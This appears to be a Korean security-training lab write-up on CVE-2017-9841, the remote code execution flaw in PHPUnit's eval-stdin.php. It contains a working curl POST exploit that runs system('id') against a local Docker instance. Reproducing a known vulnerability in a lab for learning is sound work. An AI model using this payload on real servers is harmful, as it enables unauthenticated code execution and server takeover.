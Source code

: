# PHPUnit/CVE-2017-9841

---

> 화이트햇 스쿨 3기 - 김수연 (ksuyeon0124@gmail.com)
> 

### CVE 요약

- PHPUnit에 있는 `eval-stdin.php` 파일이 사용자 입력을 그대로 `eval()`로 실행한다.
- 공격자가 POST 요청으로 악성 PHP 코드를 보내 서버에서 실행 가능하다.
- 인증 없이 **원격 코드 실행(RCE)**이 가능해서 서버의 완전 장악이 가능하다.

### 환경 구성

- 아래 커멘드를 입력하여 컨테이너를 올렸다.
    - `docker compose up -d`

### 취약점 실행

- 아래 명령어를 입력해서 이 시스템의 id를 출력해보려고 한다. 이 PHP 코드는 서버에서 **`id` 명령어**를 실행하는 명령어이다.

```bash
curl -X POST http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('id'); ?>"
```

- 아래와 같이 정보가 출력되는 것을 확인할 수 있다.

![image.png](image.png)

### 정리

- 원래는 서버에서 사용자 입력의 실행이 금지되어야 하는데, `eval-stdin.php` 로 인해 실행이 된다. 하여 서버로 `system`의 `id`를 출력하는 명령어를 보냈는데, 그 정보를 그대로 출력하는 것을 확인할 수 있었다.